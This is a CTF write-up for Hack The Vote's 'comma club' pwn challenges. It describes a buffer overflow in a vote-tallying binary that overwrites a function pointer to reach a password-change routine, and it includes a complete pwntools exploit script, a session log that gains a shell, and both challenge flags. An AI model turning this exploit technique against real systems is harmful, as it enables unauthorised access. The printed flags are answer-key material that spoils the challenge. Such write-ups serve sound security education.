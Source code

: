 ```yaml
---
title: comma club writeup
date: 2024-11-06
description: "writeup of the comma-club and comma-club-revenge challenges from hack the vote ctf"
tags: ["ctf","pwn","hackthevote"]
---
```

# Challenge description

[link to challange](https://hackthe.vote/challenges#Comma%20Club-12)

"We need somone to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in Wyoming though."

nc comma-club.chal.hackthe.vote 1337

[file](https://hackthe.vote/files/7bc724cdc53f5e8375258cb26e69b258/comma-club.tar.gz)

# Solution

After inspecting the checksec output, we can see that the binary is not stripped and has all the protections disabled. We can also see that the binary is a 64-bit ELF file.

![checksec](/images/comma/comma_checksec.png)

In program we can add votes for cadidates and check the results. Other fuctionalities are locked with password. After inspecting the binary in IDA we can see that goal is to get to the close voting option ( it executes system("/bin/sh") ).

![ida](/images/comma/comma_goal.png)

When adding votes there is a limit of 584057 votes that we cann add to the candidate. Also when displaying the results, the program checks if the candidate has more than 584057 votes and if so, resets them to 0, but this happens only when we call the function that displays the results.

Candidates are stored in a structure that is innitialized like this:

![candidates](/images/comma/comma_candidate_structure.png)

After experimenting with the program, if we add a lot of votes for a candidate, the program will crash wig SIGSEGV. 

![cand_array](/images/comma/comma_cand_array.png)


Here in debuger we can see how candidates are stored in memory. 
(Name, votes,string representation of votes and poiter to function that displays the results)

Function print_int_with_commas has a buffer overflow vulnerability. We can overwrite the pointer to the function that displays the results. 

![chage_password_function](/images/comma/comma_change_password_function.png)

So we can overwrite last byte of the pointer so it points to change_password_to function. Last byte needs to be 0x39 which is 9 is ASCII. 

Here you can see how the cand_array looks like after overwriting the pointer.

![overwritten_pointer](/images/comma/comma_overflowed.png)

Last step is to determine to what password will be changed. We can see that by inspecting RAX register when we enter function.

![password](/images/comma/comma_new_password.png)

Here is final exploit:

```python
from pwn import *
from binascii import *
PATH = './challenge'
ADDR = 'comma-club.chal.hackthe.vote'
PORT = 1337
elf = context.binary = ELF(PATH)
context.log_level = 'debug'
####
#r = remote(ADDR, PORT)
####
r = process(PATH)
####
# context.terminal = ['wt.exe','wsl.exe']
# r = gdb.debug(args=[elf.path])
###
r.recvuntil(b'> ')
r.sendline(b'1') #add vote option
votes = 1000009
reminder = votes % 584056
reps = votes//584056
for i in range(reps):
    r.recvuntil(b'> ')
    r.sendline(b'1') #select candidate
    r.recvuntil(b'> ')
    r.sendline(b'584056') #add votes
r.recvuntil(b'> ')
r.sendline(b'1')
r.recvuntil(b'> ')
r.sendline(str(reminder).encode()) #add rest of votes
r.recvuntil(b'> ')
r.sendline(b'3') #quit
r.recvuntil(b'> ')
r.sendline(b'2') #print votes
r.recvuntil(b'> ')
r.sendline(b'3') #end vote
r.recvuntil(b'> ')
r.sendline(b'Total') #password
r.interactive() #shell
```

Also program can be exploited like this:

```
Welcome to the Wyoming Vote Tallying Software
Presented by Jeff!
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 1
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500009
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500000
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 3
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 2
password change sucessful.

Candidate cannot have more votes than the population of Wyoming (584057).
Resetting vote count to 0.
**********************************************************************
* Candidate: Wilfred J Lewis - S                                     *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

**********************************************************************
* Candidate: Jeanette D Westcott - T                                 *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 3
Please enter the password
> Total
Correct!
Voting is now closed! The winner is Wilfred J Lewis with 0 votes!
This program will now exit.
cat flag
flag{w3lc0me_2_TH3_2_c0mm4_c1ub}
```

This exploit happend to work also on second part of the challange called comma-club-revenge (this challange could be also exploited by sending null bytes as password to terminate strncpy).

Second flag:
```
flag{W3lc0Me_t0_TH3_gr34t3r_th4N_0n3_c0Mm4_c1Ub}
```









